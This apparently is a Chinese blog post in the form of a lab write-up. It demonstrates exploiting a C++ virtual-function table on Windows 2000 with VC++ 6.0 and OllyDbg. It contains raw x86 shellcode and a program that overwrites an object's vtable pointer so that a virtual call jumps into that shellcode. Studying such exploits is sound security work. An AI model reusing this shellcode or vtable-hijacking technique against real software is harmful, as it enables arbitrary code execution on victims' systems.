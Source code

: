 ```yaml
---
layout:		post
title:		攻击C++的虚函数
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>
#include <iostream>
using namespace std;

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90";		# 通过调试确定shellcode的首地址, 被覆盖的虚表指针会指向这里

class myClass
{
public:
	char buf[200];
	virtual void test()
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};

myClass overflow, *p;

int main()
{
	char *p_vtable;
	p_vtable=overflow.buf-4;
	printf("addr: 0x%08x\n",p_vtable);
	__asm int 3;
	
	p_vtable[0]=0xcc;
	p_vtable[1]=0x88;
	p_vtable[2]=0x40;
	p_vtable[3]=0x00;
	strcpy(overflow.buf, shellcode);

	p=&overflow;
	p->test();

	return 0;
}
```


### 0x01 exploit

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试, 虚表指针已经打印出来

![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x00.png)

单步到rep movsd, 内存区goto 0x00410dd8, 可以看到copy过去的数据

![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x01.png)
![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x02.png)

数据起始-4 byte(0x004088cc)是虚表指针, 将它修改为指向数据尾部的90909090(0x00410e5c)

![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x03.png)

同时将尾部90909090修改成指向shellcode的起始地址(0x00410ddc)

![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x04.png)

源码作如下修改

```
p_vtable[0]=0x5c;
p_vtable[1]=0x0e;
p_vtable[2]=0x41;
p_vtable[3]=0x00;
```

shellcode最后的4 byte修改成0x00410ddc

```
"\xdc\x0d\x41\x00"
```

注释掉int 3断点,再编译运行一遍, pwn~

![](/assets/img/exploit/2017-10-02-windows-2000-vtable/0x05.png)